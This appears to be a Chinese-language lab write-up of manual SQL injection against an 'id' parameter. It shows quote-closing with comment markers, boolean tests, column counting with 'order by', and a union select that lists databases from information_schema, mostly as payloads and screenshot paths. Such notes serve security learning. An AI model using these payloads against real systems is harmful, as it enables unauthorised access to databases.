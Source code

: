 需要让语句闭合，正常执行，在url结尾输入%23 或者--+，正常闭合，%23为#，注释后面的语句,一定要注意“ ' ”英文输入下，否则容易爆错


去测试是否有sql漏洞

![image-20220609083944558](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083944558.png)

![image-20220609084037093](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084037093.png)

![image-20220609084958491](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084958491.png)

发现1’ 报错
和 1 and 1=1,回显
而1 and 1=2,没有回显
得出结论，执行了逻辑语句and ,所以有sql漏洞

**2.输入1，回显**

注入类型是否为字符型注入，在输入id=1的时候发现输出结果为id=’1’，判断类型为字符

![image-20220609083749657](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083749657.png)

**3.猜解SQL查询语句中的字段数**

1’ order by 1#

![image-20220609085330939](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085330939.png)

1’ order by 2#

![image-20220609085422484](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085422484.png)

1’ order by 3#

![image-20220609085522977](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085522977.png)

可以看到3没有回显，所以只有两个字段

**4.确定显示位置/字段顺序/回显位/SQL语句插入位置**

![image-20220609090109758](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090109758.png)

**5.获取数据库库名**

发现有两个字段可以执行，于是构造语句，查看当前数据库：

（1）获取当前数据库库名和版本

![image-20220609090256283](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090256283.png)

![image-20220609090329995](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090329995.png)

（2）获取所有数据库库名

-1' union select 1,group_concat(schema_name) from information_schema.schemata#

![image-20220609083313568](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083313568.png)
